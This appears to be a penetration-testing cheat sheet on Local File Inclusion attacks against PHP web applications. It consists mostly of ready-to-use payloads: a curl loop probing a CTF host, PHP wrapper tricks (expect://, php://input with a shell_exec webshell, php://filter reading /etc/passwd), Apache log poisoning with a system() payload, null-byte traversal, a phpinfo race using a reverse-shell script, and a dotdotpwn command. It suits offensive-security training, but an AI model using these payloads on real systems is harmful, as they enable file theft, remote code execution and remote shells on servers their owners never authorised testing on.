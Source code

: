 # LFI

## Check paths.txt for common acessible config files

```bash
while IFS="" read -r p || [ -n "$p" ]
do
  printf '%s\n' "$p"
  curl 'http://dev.team.thm/script.php?page='"$p"
done < paths.txt
```

## PHP Wrappers

### PHP Expect Wrapper

```
php?page=expect://ls
```

### PHP Wrapper php://file

```
example1.php?page=php://input&cmd=ls
```

Then send post request with the following in the body

```
<?php echo shell_exec($_GET['cmd']);?>
```

### PHP php://filter


```
vuln.php?page=php://filter/convert.base64-encode/resource=/etc/passwd

?page=php://filter/resource=/etc/passwd
```

### Apache Log Poisoning through LFI

Check to see if you can access the access.log file

```
192.168.1.129/lfi/lfi.php?file=/var/log/apache2/access.log
```

Change the user-agent to this:
```
<?php system($_GET['cmd']); ?>
```
Apache will execute the command and output the response into the access.log

```
192.168.1.129/lfi/lfi.php?file=/var/log/apache2/access.log&cmd=whoami
```

### Null Byte

```
http://ex.com/index.php?page=../../../etc/passwd%00
```

### phpinfo LFI

Find the script on the PayloadALlTheThings/File Inclusion-Path Traversal git repository (phpinfolfi.py)

Modify the payload from the script with the payload from php-reverse-shell.php

```
locate php-reverse
/usr/share/laudanum/php/php-reverse-shell.php
```

Edit the IP address and the port

Check the LFIREQ variable.

Run script and listen for connection

### dotdotpwn automation tool

```
dotdotpwn -m http -h IP -o windows
```